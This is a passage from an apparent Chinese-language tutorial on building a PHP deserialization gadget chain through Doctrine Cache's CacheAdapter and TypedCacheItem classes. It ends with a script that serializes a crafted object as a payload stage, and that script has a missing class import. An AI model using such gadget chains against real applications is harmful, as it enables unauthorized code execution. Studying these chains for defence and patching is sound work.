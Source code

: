 要继续执行代码，必须至少设置一个 `deferredItem` .如果认为代码中定义的 PHP 注解，它应该是 `TypedCacheItem` 、 `CacheItem` ，本文稍后将解释这种差异（参见 PHP 版本差异）。因此，已在 `deferredItems` 数组中添加了 `TypedCacheItem` 。

正如在 `foreach` 循环中看到的，对 `expiry` 的检查已经完成，所以 对`TypedCacheItem` 必须有一个 `expiry` 定义属性。在循环内部，检查`value`。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6;

[...]

final class TypedCacheItem implements CacheItemInterface
{
    private ?float $expiry = null;

    public function get(): mixed
    {
        return $this->value;
    }

    public function getExpiry(): ?float
    {
        return $this->expiry;
    }
}
```

`deferredItem` `expiry` 值导致两种不同的可能性。如果当前 timestamp 低于 `deferredItem` `expiry` 的值，则到达 `save` 方法。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```
